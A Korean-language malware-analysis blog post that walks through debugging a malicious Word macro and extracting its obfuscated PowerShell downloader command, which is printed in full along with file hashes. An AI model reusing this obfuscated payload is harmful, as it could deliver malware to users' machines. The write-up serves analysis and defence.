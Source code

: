 ```yaml
---
layout: post
comments: true
categories: posts
title: Powshell script obfuscation decode
subtitle: with api monitor
author: cainstorm
featured-image: /images/header/header_004.jpg
tags: [malware]
date-string: JUNE 28, 2018
---
```

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

### Powshell script obfuscation decode
악성 워드 문서 내, 파워쉘로 전달되는 난독화된 문자열 해제하기

> Filename : INV-840681218377.doc
> - MD5 : 61f2858cc90a8a2f1bc754492b0a0369
> - SHA1 : c3ecb541f8ffe2597f1991b74aac2170b17be849
> - SHA256 : 529024a76742a7337f1fabb0ee417ac2214be7a6a682ac8a4f4a30951e915e5e
> - Filesize : 	225.00 KB (230400 bytes)
> - Detection (Virustotal **39/54**)
>  - ALYac : Trojan.Downloader.VBA.gen
>  - AhnLab-V3 : W97M/Downloader

악성 워드 문서의 매크로 삽입 확인<br>
- [보기] -> [매크로] -> [편집]<br>

Visuao Basic for Applications 에서 다음과 같이 스크립트 화면을 볼 수 있는데, 파워셀에 명령을 전달하기 전인 끝나는 지점 [End Sub] 지점에서 
브레이크 포인트[F9] 를 걸어두고 [F8] 키를 눌러 한 단계씩 코드를 실행하며 디버깅 할 수 있다.
마지막 한 변수 안의 값이 파워셀로 전달되는 페이로드가 저장된 것을 확인할 수 있다.
<center>
    <div class="photoset-grid-custom" data-layout="21">
		<img src="/images/2018-06-28/2018-06-28-mal-001.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-002.jpg">		
		<img src="/images/2018-06-28/2018-06-28-mal-003.jpg">
	</div>
</center><br>

PowerShell 명령을 디버깅 할수 있는 프로그램(PowerShell ISE) 으로 명령어를 실행할 수 있다. 
여기서 확인할 사항은 MAS 분석 시 나온 command line 의 값을 생략된 것으로 추정됨
파워셀은 MS에서 개발한 명령어 인터프리터로 XP 이후의 윈도우에서 지원한다고 한다.<br><br>
워드문서의 매크로를 실행 시, 파워셀이 실행되면서 명령어 전달 이후 바로 종료되기 때문에 프로세스는 잠시 잡아두어야 하는데 API Monitor 란 도구를 사용하여 실행되는 프로세스를 모니터링 및 디버깅이 가능하다.<br>
**(아래 그림의 빨간 테두리 안의 버튼이 활성화 되어 있어야 함)**
**ollyDBG 나 Immunity DBG 에서도 프로세스를 attach 시켜 확인 가능하나 프로그램 실행하면서 attach를 하려는 순간 프로세스가 종료되어 버림**
<br>
<center>
    <div class="photoset-grid-custom" data-layout="22">
		<img src="/images/2018-06-28/2018-06-28-mal-004.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-005.jpg">		
		<img src="/images/2018-06-28/2018-06-28-mal-006.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-007.jpg">
	</div>
</center><br>

Powershell command line<br>

```
PowersHell  [StriNG]::JOIn('',( '56W84c85%119k33N114U121k107N49%115~126Y118%121%127U104N60U82h121k104W50}75}121N126c95k112%117h121~114~
104}39}56h110k81h75U33W59}116~104k104k108c38U51k51k107}107N107h50U46W114N120%111}127~110N121}121h114%111h115}127%117~
121W104~101N50~127W115c113W51%77c70k70W94W51c92}116Y104c104c108Y38}51h51%107Y107~107k50Y120~117U114U123Y120~
115k114U123c120%115N123c104U110W125W117c114k117U114%123N50Y127N115c113%51%90h127%115~118c51k92N116Y104%104~
108U38W51k51W107k107c107}50}110h125W120Y117~115Y117~114h111c108U117%110%125~127N117W115k114}104~106~50W127c115~
113~51N117k84U122W79U75N89k51c92N116k104}104}108~38k51c51k107%107}107W50k113W115%115h126W117k112}121h125N108c108
Y50h127k115%113N51N109k116N115c43c42U51U92Y116}104~104h108}38N51N51k107Y107%107W50~126%111~49~117c106Y122h49}122
W113k50h127h115~113Y51}45N117W85Y84%37}51%59N50%79N108k112c117W104k52N59}92U59U53%39U56W112N74c112W60W33}60h59}
36%40U42%59U39k56U88U118Y90h33N56c121k114U106k38k104%121c113k108~55}59Y64k59c55%56~112W74k112W55W59c50U121}100N
121c59}39h122Y115N110W121k125U127k116}52N56}108U84}107k60%117W114N60%56k110%81}75~53h103U104W110W101}103}56h84U85}
119h50Y88h115}107W114W112c115W125Y120W90%117c112%121N52~56U108k84h107%48k60~56%88c118h90}53%39h79h104}125~110Y
104W49Y76Y110h115}127Y121%111k111~60c56N88~118N90W39c126}110c121c125%119c39W97k127~125k104c127N116}103k97W97' -spliT'u'-sp
```

<center>
    <div class="photoset-grid-custom" data-layout="2">
		<img src="/images/2018-06-28/2018-06-28-mal-008.jpg">
		<img src="/images/2018-06-28/2018-06-28-mal-009.jpg">		
	</div>
</center><br>

<script src="/assets/js/jquery.photoset-grid.js"></script>

<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',
  
    // Wrap the images in links
    highresLinks: true,
  
    // Asign a common rel attribute
    rel: 'print-gallery',

    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>


{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
